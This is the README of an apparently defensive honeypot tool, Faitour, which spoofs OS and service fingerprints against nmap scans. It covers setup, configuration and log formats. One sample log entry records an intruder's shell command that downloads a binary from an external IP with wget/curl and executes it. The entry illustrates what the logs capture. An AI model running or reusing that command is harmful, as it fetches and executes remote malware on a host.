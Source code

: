 # Faitour (Imposter)

Faitour was cloned from [eightus/Cyder](https://github.com/eightus/Cyder), so I must first give credit to that project. Although that project is no longer maintained, you can still reference it for the original version.

Faitour has been stripped down to simply the OS emulation capabilities, and I have tried to simplify installation on Ubuntu 22.04. There is a ton of code clean-up that can still be done, but this was intended to be a quick and simple compliment to OpenCanary to more closely emulate different operating systems for NMAP fingerprinting.

Cyder was originally a Honeypot that was designed to imitate any machines Operating System (OS) that is available in the NMAP database. What remains in Faitour is the ability to detect NMAP probes and reply with spoofed OS and service fingerprints.

## Prerequisites

This project has been tested on Ubuntu 22.04 LTS. However, other Operating System **_MAY_** work if they have the following libraries:

- iptables
- libnetfilter_queue
- Python 3.6+

_For Ubuntu 16, you must upgrade Python to 3.6._

## Setting Up

### Ubuntu 22.04 LTS

A script is provided at `./setup.sh` to install all the required libraries, python modules, and create a SystemD service.
`sudo ./setup.sh`

### Ubuntu 16.04 LTS

By default, Ubuntu 16.04 does not have Python 3.6.You must first install Python 3.6 before running `./setup.sh`, and event then, your mileage may vary.

### Other Linux

Ensure that `iptables` and `libnetfilter_queue` are available, as well as the version of Linux is able to install the `libnetfilter-queue-dev`.
`libnetfilter-queue-dev` is required for Python 3 NetfilterQueue
Python 3.6 and above is required for Asyncio work.
_No other flavors of Linux have been tested._

## Configuration

After installing, you should change the configurations before starting the service.

The configuration file is located at:

`./configuration/host_config.ini`

Example configurations may be found in:

`./configuration/sample_configs/<description>/`

### Default Configuration:

The follwoing default configuration will be installed with Faitor. This will emulate a Windows Server 2012 R2 with the basic RPC, SMB, and RDP services that you would find on a typicaly Server 2012 R2 installation. The RPC fingerprints were chosen to match a real-world scan of a Server 2012 R2 box. 

_IMPORTANT!_ As with all configurations, including the sample configurations provided, you must update the `interface` and `ip` values to match your device's configuration, or spoofing will not work. 

```
[CONFIGURATION]
logging = localhost
# IMPORTANT! Change "interface" to match your interface name
interface = eth0
log_path = /var/log/faitour
debug = true

[HOST]
# IMPORTANT! Change "ip" to match your device's IP address
ip = 10.10.10.10
mac_address = false
http = false
ssh = false
telnet = false
file_system = ./configuration/fs/default_fs.json

# Windows Server 2012 R2 Emulation
fingerprint = SEQ(SP=FE-108%GCD=1-6%ISR=103-10D%TI=I|RD%II=I%SS=S%TS=A|C)
    OPS(O1=M5B4NW8ST11%O2=M5B4NW8ST11%O3=M5B4NW8NNT11%O4=M5B4NW8ST11%O5=M5B4NW8ST11%O6=M5B4ST11)
    WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
    ECN(R=Y%DF=Y%T=7B-85%TG=80%W=FFFF%O=M5B4NW8NNS%CC=Y%Q=)
    T1(R=Y%DF=Y%T=7B-85%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
    T2(R=N)
    T3(R=N)
    T4(R=N)
    T5(R=Y%DF=Y%T=7B-85%TG=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
    T6(R=N)
    T7(R=N)
    U1(DF=N%T=7B-85%TG=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
    IE(DFI=N%T=7B-85%TG=80%CD=Z)

# Microsoft SMB Emulation
139 = \x83\0\0\x01\x8f$
445 = \0\0\0.\xffSMBr\0\0\0\0\x88\x01@\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\x06\0\0\x01\0\x11\x07\0.2\0\x01\0\x04A\0\0\0\0\x01\0\0\0\0\0\xfc\xe3\x01\0

# Windows RPC Emulation
135 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1025 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1026 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1027 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1028 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1113 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
1169 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$
2701 = \x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0...$

# Microsoft RDP
3389 = \x03\0\0*%\xe0\0\0\0\0\0

```

Remember to change the interface name and IP address to match your device settings.

## Starting the Emulator

To run the OS emulator, simply start the systemd service by running:

`sudo systemctl start faitour.service`

## Fingerprints & Services

Operating System Fingerprints can be found at: https://svn.nmap.org/nmap/nmap-os-db

Service Fingerprints can be found at: https://svn.nmap.org/nmap/nmap-service-probes

Be sure to run an NMAP scan from another machine to ensure that everything is working as expected. 

`nmap -sS -sV -O <ip address>`

## Key Files

`./setup.sh`
  - Setup script for Ubuntu 22.04 LTS

`./configuration/host_config.ini`
  - Configuration for OS emulation

## Logging

Logs are stored in `/var/log/faitour` by default. All logs are in `json` format.

**faitour.json**

- Contains credentials and commands that are attempted through SSH / Telnet / HTTP
- Example of Logs:
- `{"timestamp": 1577716279.8859844, "protocol": "SSH", "username": "root", "password": "admin", "dst_ip": "x.x.x.x", "dst_port": 22, "src_ip": "x.x.x.x", "src_port": 52772}`
- `{"timestamp": 1577682398.527439, "protocol": "SSH", "command": "#!/bin/sh\nPATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\nwget http://23.228.113.117/21\ncurl -O http://x.x.x.x/21\nchmod +x 21\n./21\n", "dst_ip": "x.x.x.x", "dst_port": 22, "src_ip": "x.x.x.x", "src_port": 50433}`
- `{"timestamp": 1577682701.8840919, "protocol": "Telnet", "username": "admin", "password": "", "src_ip": "x.x.x.x", "dst_ip": "x.x.x.x", "src_port": 56380}`
- Timestamp is in epoch time format.

**packet.json**

- Contains the packet bytes the host received. **NOTE:** it does not contain packets that are sent out.
- Example of Packet Log:
- `{"timestamp": 1577678695.520519, "dst_ip": "x.x.x.x", "host_os": "HOST", "src_ip": "x.x.x.x", "services": 22, "packet": "d2h5IGRpZCB5b3UgZXZlbiB0cnkgdG8gZGVjb2RlIHRoaXM/IEkgd291bGRuJ3QgcHV0IGEgcmVhbCBwYWNrZXQgaGVyZQ==\n"}`
- The packet is base64 encoded.To decode it, use:
- `base64.decodebytes(packet.encode('ascii'))`
- This will return you the actual bytes.
- `services` is the port number.

**debug.json**

- Self-explanatory

## Limitations and Known Issues

### Limitations:

- NMAP may yield an inaccurate result during an aggressive scan, but it should not affect the average NMAP fingerprinting.
- UDP Packets are dropped due to the inability to spoof the OS.

### Known Issues:

None yet. Please report any issues you encounter.

## TODO

* [x] Operating System Spoofing
* [ ] Code Clean Up of Cyder's Honeypot Functionality

## Credits

* [@eightus](https://github.com/eightus) for the original Cyder project
* [@1Stronk](https://github.com/1Stronk) for some tips on getting this to work on Ubuntu 22.04
